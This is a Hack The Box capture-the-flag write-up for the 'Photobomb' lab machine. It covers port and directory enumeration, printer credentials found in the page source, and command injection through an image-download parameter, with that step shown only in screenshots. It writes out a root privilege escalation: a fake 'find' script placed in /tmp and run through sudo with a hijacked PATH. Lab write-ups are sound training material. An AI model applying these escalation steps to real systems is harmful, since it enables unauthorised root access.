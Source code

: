```yaml
---
title: "[HTB] Machine: Photobomb"
description: "[HTB] Machine: Photobomb"
date: 2023-08-28
menu:
  sidebar:
    name: "[HTB] Machine: Photobomb"
    identifier: htb-machine-Photobomb
    parent: htb-machines-linux
    weight: 10
hero: images/photobomb.png
tags: ["HTB", "bash", "bash-test", "image-magick", "command-injection", "injection", "path-hijack", "bash-builtins"]
---
```


# Photobomb
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.182 -T4                                                                                          
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-30 10:16 BST
Warning: 10.10.11.182 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.182 (10.10.11.182)
Host is up (0.16s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.11.182 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-30 10:44 BST
Nmap scan report for 10.10.11.182 (10.10.11.182)
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.66 seconds

```
- Web server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://photobomb.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php --no-error          
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://photobomb.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/30 10:49:19 Starting gobuster in directory enumeration mode
===============================================================
/printer              (Status: 401) [Size: 188]
/printer.txt          (Status: 401) [Size: 188]
/printer.php          (Status: 401) [Size: 188]
/printers             (Status: 401) [Size: 188]
/printers.txt         (Status: 401) [Size: 188]
/printers.php         (Status: 401) [Size: 188]
/printerfriendly      (Status: 401) [Size: 188]
/printerfriendly.php  (Status: 401) [Size: 188]
/printerfriendly.txt  (Status: 401) [Size: 188]
/printer_friendly     (Status: 401) [Size: 188]
/printer_friendly.txt (Status: 401) [Size: 188]
/printer_friendly.php (Status: 401) [Size: 188]

```
- `vhosts`
  - Nothing
```
└─$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://photobomb.htb/' -H 'Host: FUZZ.photobomb.htb'  -fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://photobomb.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.photobomb.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

```
## Foothold/User
- `http://photobomb.htb/printer`
  - No creds

![](./images/2.png)

- `http://photobomb.htb/index.php`

![](./images/3.png)

![](./images/4.png)

- If we check sources for `http://photobomb.htb/` we have cresd for `printer`
  - `pH0t0:b0Mb!`

![](./images/5.png)

- They work

![](./images/6.png)

![](./images/8.png)

- When we select image and specific options we have a `POST` request

![](./images/7.png)

- `filetype` resulted in interesting response, while other parameters responded in error

![](./images/9.png)

![](./images/10.png)

- If we `ping` attack box we receive response

![](./images/11.png)

- Now, let's get revshell

![](./images/12.png)

## Root
- We have `sudo` rights
```
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:~/photobomb$ 

```
```
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
- We have
  - `SETENV` uses current environment
  - `find` is used without full path
- So we can create a `find` script and place it `/tmp`
  - And run the script with `PATH` variable due to `SETENV`
    - `...environment variables set on the command line are not subject to the restrictions imposed by env_check, env_delete, or env_keep...`
```
wizard@photobomb:/tmp$ echo -e '#!/bin/bash\n\nbash' > find
wizard@photobomb:/tmp$ chmod +x find
wizard@photobomb:/tmp$ cat find
#!/bin/bash

bash
```
```
wizard@photobomb:/tmp$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
root@photobomb:/home/wizard/photobomb# whoami
root
```
### Intended path
- `/opt/.bashrc`
  - `enable -n [ # ]` is [disabling](https://linux.die.net/man/1/bash) `[` command
  - `[` is the same as `test` 
```
# System-wide .bashrc file for interactive bash(1) shells.

# To enable the settings / commands in this file for login shells as well,
# this file has to be sourced in /etc/profile.

# Jameson: ensure that snaps don't interfere, 'cos they are dumb
PATH=${PATH/:\/snap\/bin/}

# Jameson: caused problems with testing whether to rotate the log file
enable -n [ # ]
...
```
- wizard@photobomb:/tmp$ which [
/usr/bin/[
```
- The path is similar to what we did with `find`

![](./images/13.png)